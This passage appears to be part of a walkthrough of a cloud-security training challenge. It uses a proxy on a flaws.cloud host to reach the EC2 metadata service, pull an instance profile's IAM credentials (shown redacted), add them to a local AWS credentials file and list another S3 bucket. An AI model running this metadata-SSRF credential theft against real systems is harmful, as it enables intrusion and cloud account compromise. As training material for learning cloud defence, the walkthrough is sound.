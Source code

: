 ```
public-keys/
reservation-id
security-groups
services/
```

List hostname of instance: 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/hostname/`
```
ip-172-31-41-84.us-west-2.compute.internal
```

List instance profile info: 

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/info/`
```
{
  "Code" : "Success",
  "LastUpdated" : "2021-10-30T18:29:03Z",
  "InstanceProfileArn" : "arn:aws:iam::975426262029:instance-profile/flaws",
  "InstanceProfileId" : "AIPAIK7LV6U6UXJXQQR3Q"
}
```

List instance profile keys and token:

`http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`
```
{
  "Code" : "Success",
  "LastUpdated" : "2021-10-30T18:29:12Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "(redacted)",
  "SecretAccessKey" : "(redacted)",
  "Token" : "(redacted)",
  "Expiration" : "2021-10-31T00:47:18Z"
}
```

Add the instance profile keys and token to our local AWS credentials (~/.aws/credentials): 
```
[level5]
aws_access_key_id = (redacted)
aws_secret_access_key = (redacted)
aws_session_token = (redacted)
```

Use the instance profile creds to list the files in the level6 bucket: 

`aws --profile level5 s3 ls level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud`

```
                           PRE ddcc78ff/
2017-02-26 21:11:07        871 index.html
```
